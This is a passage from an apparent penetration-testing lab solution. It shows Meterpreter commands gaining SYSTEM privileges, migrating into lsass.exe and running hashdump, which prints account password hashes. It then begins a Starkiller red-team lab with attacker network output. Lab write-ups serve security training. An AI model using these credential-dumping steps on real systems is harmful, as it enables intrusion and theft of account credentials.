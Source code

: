 `getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Migrating the Meterpreter session to `lsass.exe`._

`pgrep lsass`:
```
600
```

`migrate 600`:
```
[*] Migrating from 4976 to 600...
[*] Migration completed successfully.
```

_Dumping password hashes from the target system._

`hashdump`:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

### Red Team Operations with Starkiller - Lab

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

_Checking the network configuration of the attacker's machine._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.6  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:06  txqueuelen 0  (Ethernet)
        RX packets 4083  bytes 321428 (313.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4113  bytes 2340067 (2.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.23.3  netmask 255.255.255.0  broadcast 10.10.23.255 ←
        ether 02:42:0a:0a:17:03  txqueuelen 0  (Ethernet)
        RX packets 12  bytes 936 (936.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 13861  bytes 33640297 (32.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13861  bytes 33640297 (32.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
